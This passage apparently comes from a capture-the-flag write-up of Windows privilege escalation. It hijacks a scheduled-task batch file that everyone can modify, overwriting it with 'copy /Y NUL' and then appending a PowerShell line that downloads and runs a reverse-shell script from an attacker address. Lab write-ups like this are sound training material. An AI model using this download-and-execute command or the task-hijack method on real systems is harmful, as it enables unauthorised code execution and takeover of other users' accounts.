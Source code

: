 There's a batch file present that looks like its part of a scheduled task, and we have modify permissions on it:

```
PS C:\users\decoder> type clean.bat
@echo off 
del /q /s c:\users\decoder\appdata\local\TEMP\*.tmp 
exit 
  
PS C:\users\decoder> icacls clean.bat
clean.bat Everyone:(M)
          NT AUTHORITY\SYSTEM:(I)(F)
          FIGHTER\decoder:(I)(F)
          BUILTIN\Administrators:(I)(F
```

Normally, I would append something to the end of the file and get it to execute, however, there's an `exit` call which would prevent me from exploiting that.&#x20;

Normally we cannot overwrite the file without write permissions, but modify allows us to use `copy` to change the file.&#x20;

{% embed url="https://stackoverflow.com/questions/45141044/cmd-copy-null-to-multiple-files" %}

```
PS C:\users\decoder> cmd /c copy /Y NUL clean.bat
        1 file(s) copied.
PS C:\users\decoder> cat clean.bat
```

Now, we can write anything we want to this file. We can `echo` in the same shell we used earlier:

{% code overflow="wrap" %}
```
cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.11/REV.PS1') >> clean.bat"
```
{% endcode %}

After waiting for a while, we would get a `decoder` shell:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Driver Exploit --> SYSTEM
